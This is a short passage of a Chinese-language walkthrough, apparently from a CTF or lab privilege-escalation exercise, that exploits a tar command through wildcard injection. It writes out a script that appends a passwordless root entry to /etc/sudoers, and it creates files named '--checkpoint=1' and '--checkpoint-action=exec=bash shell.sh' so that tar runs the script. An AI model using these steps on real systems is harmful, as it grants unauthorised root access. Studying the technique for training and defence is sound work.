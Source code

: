vim一下

![image-20231120233158217](assets/image-20231120233158217.png)

看到是tar命令，便可以利用

   在tar命令中有一个checkpoint参数，即检查点，比如checkpoint=1，则代表压缩过程中每压缩一个文件就去执行一个检查操作。
   而这个检查操作的参数是-checkpoint-action=exec=，后面可以跟要执行的命令。
   利用思路就是我们写入一个可以提提权的sh脚本，这个思路就多了....然后利用checkpoint-action=exec=接一个执行sh脚本的命令即可。

这里创建shell.sh写入

```typescript
echo "test ALL=(root) NOPASSWD:ALL" >> /etc/sudoers
```

 输入

```cobol
echo "" > --checkpoint=1
echo "" > "--checkpoint-action=exec=bash shell.sh"
```

这样上面两个文件名就会被tar当作参数执行

一小会后:

![image-20231120233256569](assets/image-20231120233256569.png)



![image-20231120233308962](assets/image-20231120233308962.png)
